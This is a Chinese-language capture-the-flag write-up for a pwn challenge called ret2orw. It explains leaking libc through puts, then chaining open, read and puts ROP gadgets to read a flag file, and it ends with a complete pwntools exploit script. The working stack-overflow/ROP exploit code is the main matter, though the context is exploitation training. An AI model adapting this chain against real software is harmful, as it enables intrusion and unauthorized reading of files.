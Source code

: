 ### ret2orw

题目都提示是ret2orw了，那我们就直接想办法暴露open，read，puts这三个函数的真实地址之后布置栈帧，最后站迁移到bss段就好啦

先来看题，静态链接，直接找到vuln，看ida找bss段的空白地址

紧接着我们先暴露出puts的真实地址，然后用真实地址=基地址+偏移地址这个公式就可以在解出libc基地址

之后找到open的地址以及我们orw时要用到的几个寄存器，rsi，rdx，这样准备工作就做完了

最后三步走构建payload：

> 首先填充0x28个字节来制造溢出然后用read函数读取bss段0x40个字节，之后用寄存器赋值rdi，也就是函数的第一个参数赋值为0，
>
> 之后rsi开辟一个足够大的bss段的栈空间再将rdx赋值为0x40（也就是读取的大小）从而调用read函数
>
> 我们要用open函数打开文件中的flag，具体做法就是还是先给rdi付一个足够大的值保证栈空间够用，然后给寄存器rsi赋值，从而调用open函数，再次调用read函数
>
> 最后就是将内容打印出来，寄存器赋足够大的值然后填入plt表中的puts地址就可以了，之后发送payload并且填满整个我们之前开辟出来的空间，之后再发送‘flag’，就可以了

```python
from pwn import *
r=remote('',)
elf = ELF('./ret2orw')
libc=ELF('libc.so.6')
pop_rdi = 0x4012ce
vuln = 0x4012A1
bss = 0x404060
r.recvuntil('this?\n')
payload=b'a' * 0x28 + p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(vuln)
r.send(payload)
puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
libc_base = puts_addr - libc.sym['puts']
print(hex(puts_addr))
open = libc_base + libc.sym['open64']
pop_rsi = libc_base + 0x000000000002be51
pop_rdx_r12 = libc_base + 0x000000000011f2e7
payload = b'a' * 0x28 
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(bss + 0x100)
payload += p64(pop_rdx_r12) + p64(0x40) + p64(0)
payload += p64(elf.plt['read'])
payload += p64(pop_rdi) + p64(bss + 0x100)
payload += p64(pop_rsi) + p64(0)
payload += p64(open)
payload += p64(pop_rdi) + p64(3)
payload += p64(pop_rsi) + p64(bss + 0x100)
payload += p64(pop_rdx_r12) + p64(0x40) + p64(0)
payload += p64(elf.plt['read'])
payload += p64(pop_rdi) + p64(bss + 0x100)
payload += p64(elf.plt['puts'])
r.send(payload.ljust(0x100, b'\x00'))
r.send('flag')
r.interactive()
```
